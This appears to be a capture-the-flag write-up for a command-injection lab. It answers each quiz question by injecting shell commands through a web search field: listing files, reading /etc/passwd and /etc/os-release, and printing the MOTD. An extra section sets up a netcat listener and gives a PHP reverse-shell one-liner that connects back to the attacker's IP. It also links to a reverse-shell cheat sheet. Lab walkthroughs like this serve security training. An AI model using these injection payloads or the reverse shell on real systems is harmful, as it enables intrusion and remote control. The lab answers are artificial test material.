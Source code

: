 # Task 5

- [Task 5](#task-5)
  - [What strange text file is in the website root directory?](#what-strange-text-file-is-in-the-website-root-directory)
    - [Answer](#answer)
  - [How many non-root/non-service/non-daemon users are there?](#how-many-non-rootnon-servicenon-daemon-users-are-there)
    - [Answer](#answer-1)
  - [What user is this app running as?](#what-user-is-this-app-running-as)
    - [Answer](#answer-2)
  - [What is the user's shell set as?](#what-is-the-users-shell-set-as)
    - [Answer](#answer-3)
  - [What version of Ubuntu is running?](#what-version-of-ubuntu-is-running)
    - [Answer](#answer-4)
  - [Print out the MOTD.  What favorite beverage is shown?](#print-out-the-motd--what-favorite-beverage-is-shown)
    - [Answer](#answer-5)
- [EXTRA](#extra)
  - [Spawn remote shell in that machine](#spawn-remote-shell-in-that-machine)
## What strange text file is in the website root directory?

```
test; ls
```

### Answer

drpepper.txt

## How many non-root/non-service/non-daemon users are there?

```
test; cat /etc/passwd
```

### Answer

0

## What user is this app running as?

```
test; whoami
```

### Answer

www-data

## What is the user's shell set as?

```
test; cat /etc/passwd |grep www-data
```

### Answer

/usr/sbin/nologin

## What version of Ubuntu is running?

```
test ; cat /etc/os-release

or 

test ; lsb_release -a
```
### Answer

18.04.4

## Print out the MOTD.  What favorite beverage is shown?

```
test ; locate 00-header
test ; cat /etc/update-motd.d/00-header 
```

### Answer

Dr Pepper

# EXTRA

## Spawn remote shell in that machine

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

1. On your machine

- Open a localport on your machine

```
nc -lvnp 9001
```

2. On vulnerable webpage
   
- Spawn this remote shell in the search input. 

Replace ```10.18.1.159``` with your own VPN IP

```
test; php -r '$sock=fsockopen("10.18.1.159",9001);`sh <&3 >&3 2>&3`;'
```

![picture 1](../../../images/9f47b15d9d30419118f5bf48cd93b6e29da260b3859fec6969666e05c774802a.png)  
